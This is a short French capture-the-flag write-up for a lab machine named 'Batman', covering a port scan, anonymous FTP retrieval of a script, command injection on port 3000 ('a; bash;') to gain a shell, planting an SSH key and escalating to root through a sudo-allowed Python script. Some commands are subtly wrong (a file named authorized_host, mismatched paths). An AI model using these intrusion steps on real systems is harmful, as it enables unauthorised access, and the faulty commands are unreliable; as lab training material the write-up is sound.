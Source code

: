 # Batman

### Observation des ports

On utilise nmap pour observer les ports de la machine

```basg
nmap -vv ip -p-
```

Et on tombe sur

![Untiled](assets/nmap.png)

On peut voire les ports suivant : 21, 22 et 3000

On observe que le port 21 est un ftp

### Connection ftp

Pour pouvoir nous connecter en ftp on utilise la commande suivante

```bash
ftp ip 21
```

On doit ensuite se connecter en tant qu'anonymous
Et on peut récuperer alert.py via cette commande 

```bash
get alert.py
```

Puis on peut observer comment fonctionne alert.py

![Untiled](assets/alert.png)

### Connection sur le server

On peut se connecter sur le server via la commade ncat, puis via ce que l'on a observer par rapport a alert.py, on peut constater que l'on peut lancer des commades dans la machine. On utilise la méthode suivante pour récuperer le premier flag


```bash
ncat ip 3000
    >[ALERT]
    >a; ls;
    >a; bash;
>cat /home/bruce_wayne/user.txt
```
Avec cela on trouve ce qui est a l'intérieur de user.txt qui est le premier flag


### Connection ssh a la machine


Ensuite pour pouvoir acceder au dernier flag on va devoire se connecter en ssh a la machine.
Pour ce faire on va devoir ajouté notre clé ssh publique au fichier authorized_host, pour ce faire on fait :

```bash
mkdir /home/bruce_wayne/.ssh
touch /home/bruce_wayne/.ssh/authorized_host
echo "ssh" > /home/bruce_wayne/ssh/authorized_host
```

Puis on peut se connecter en ssh avec

```bash
ssh bruce_wayne@ip
```

### Récupération du dernier flag

Maintenant que l'on est connecter en ssh, on va observer si bruce_wayne a un mot de passe, pour ce faire on utilise la commande suivante

```bash
sudo -l
```

![Untiled](assets/sudo-l.png)

On peut voire que bruce_wayne peut executer un programme python en root sans devoir noter son mot de passe

Donc on va modifier le programme python via vim pour pouvoire le force write avec :w!
Voici le code 

![Untiled](assets/python.png)

Ensuite on le lance est on tombe sur le dernier flag qui se trouvé dans le dossier root de la machine comme sont nom pouvez nous l'annoncé.
